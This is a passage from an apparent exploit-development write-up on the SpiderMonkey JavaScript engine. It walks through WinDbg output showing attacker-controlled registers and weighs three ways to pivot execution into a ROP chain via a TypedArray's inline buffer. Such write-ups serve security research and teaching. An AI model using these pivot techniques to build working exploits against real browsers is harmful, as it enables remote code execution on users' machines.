 Let's break down the CPU context:

1. `@rdx` is `obj` which is a pointer to the `JSObject` (`Target` in the script above. Also note that `@rbx` has the same value),
2. `@r8` is `id` which is a pointer to a `jsid` describing the name of the property we are trying to add which is `im_falling_and_i_cant_turn_back` in our case,
3. `@r9` is `v` which is a pointer to a `js::Value` (the JavaScript integer `1` in the script above).

As always, reality check in the debugger:

```text
0:000> dqs @rdx l1
00000046`9b9ff490  0000020a`7da02e10

0:000> !smdump_jsobject 0x20a7da02e10
20a7da02e10: js!js::TypedArrayObject:       Type: Uint8Array
20a7da02e10: js!js::TypedArrayObject:     Length: 90
20a7da02e10: js!js::TypedArrayObject: ByteLength: 90
20a7da02e10: js!js::TypedArrayObject: ByteOffset: 0
20a7da02e10: js!js::TypedArrayObject:    Content: Uint8Array({Length:90, ...})
@$smdump_jsobject(0x20a7da02e10)


0:000> dqs @r8 l1
00000046`9b9ff248  0000020a`7dbaf100

0:000> dqs 0000020a`7dbaf100
0000020a`7dbaf100  0000001f`00000210
0000020a`7dbaf108  0000020a`7dee2f20

0:000> da 0000020a`7dee2f20
0000020a`7dee2f20  "im_falling_and_i_cant_turn_back"


0:000> dqs @r9 l1
0000020a`7deb8098  fff88000`00000001

0:000> !smdump_jsvalue 0xfff8800000000001
1: JSVAL_TYPE_INT32: 0x1
@$smdump_jsvalue(0xfff8800000000001)
```

It is not perfect, but sounds like we have at least some amount of control over the context. Looking back at it, I guess I could have gone several ways (a few described below):

1. As `@rdx` points to the `Target` object, we could try to pivot to the inline backing buffer of the TypedArray to trigger a ROP chain,
2. As `@r8` points to a pointer to an arbitrary string of our choice, we could inject a pointer to the location of our ROP chain disguised as the content of the property name,
3. As `@r9` points to a `js::Value`, we could try to inject a double that once encoded is a valid pointer to a location with our ROP chain.

At the time, I only saw one way: the first one. The idea is to create a TypedArray with the biggest inline buffer possible. Leveraging the inline buffer means that there is less memory dereference to do making the pivot is simpler. Assuming we manage to pivot in there, we can have a very small ROP chain redirecting to a second one stored somewhere where we have infinite space.
